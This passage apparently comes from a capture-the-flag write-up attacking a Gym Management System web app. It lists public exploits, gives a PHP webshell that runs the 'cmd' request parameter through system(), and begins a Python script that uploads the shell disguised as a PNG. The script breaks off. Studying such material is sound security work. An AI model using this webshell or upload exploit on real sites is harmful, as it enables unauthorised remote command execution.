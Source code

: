 ```shell
 Exploit Title                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                                                                              | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                                                                           | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                                                                     | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                           | php/webapps/48506.py
-------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
We are interested in the `Unauthenticated RCE`. 

## User shell
### RCE through port 8080's CMS
IF we take a look at the exploit [php/webapps/48506.py](https://www.exploit-db.com/exploits/48506), we can see that the CMS is vulnerable to LFI and we could upload a webshell like:
```php
echo "<pre>".system($_REQUEST["cmd"])."</pre>";
```
The page seems to be filtering for image uploads, so the name must be `webshell.php.png`. If we try to exploit this vulnerability with the next exploit:
```py
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/upload_webshell.py
       │ Size: 1.1 KB
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ import requests
   2   │ import argparse
   3   │ 
   4   │ args = argparse.ArgumentParser()
   5   │ args.add_argument("-u", "--url", help="Target's URL (base url)",dest="url",type=str, required=True)
   6   │ args.add_argument("-n", "--name", help="Name of the webshell", dest="name",type=str, required=True)
   7   │ args = args.parse_args()
   8   │ 
   9   │ upload_dir = '/upload.php?id={}'.format(args.name)
  10   │ upload_url = args.url + upload_dir 
  11   │ 
  12   │ png_magic = '\x89\x50\x4e\x47\x0d\x0a\x1a'
  13   │ 
  14   │ file_name = args.name + ".php.png"
  15   │ payload = png_magic + '\n' + '<?php echo "<pre>".system($_GET["cmd"])."</pre>"; ?>'
  16   │ file_type = "image/png"
  17   │ headers = {
  18   │         'Content-Disposition':'form-data'
  19   │         }
  20   │ 
  21   │ data = {
  22   │         'file':
  23   │             (
  24   │                 file_name,
  25   │                 payload,
  26   │                 file_type,
  27   │                 headers
  28   │             )
```